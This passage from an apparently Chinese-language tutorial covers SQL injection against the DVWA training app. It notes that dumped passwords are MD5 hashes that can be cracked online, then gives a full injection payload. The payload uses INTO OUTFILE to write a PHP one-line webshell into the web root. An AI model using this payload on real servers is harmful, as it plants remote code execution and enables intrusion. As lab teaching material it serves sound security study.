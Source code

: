 ![image-20220318101050289](../../images/image-20220318101050289.png)



其中密码为MD5加密的值，可以在MD5在线解密网站解密https://www.bejson.com/enc/md5dsc/

![image-20220318133352948](../../images/image-20220318133352948.png)

#### 8.1.2 写入一句话木马

利用outfile函数可以将一句话木马写入到一个文件内，并保存在数据库有写入权限的web路径下。

```
1' and 1=2 union select 1,'<?php @eval($_POST[123])?>' into outfile '/var/www/dvwaplus/tq.php'#
```
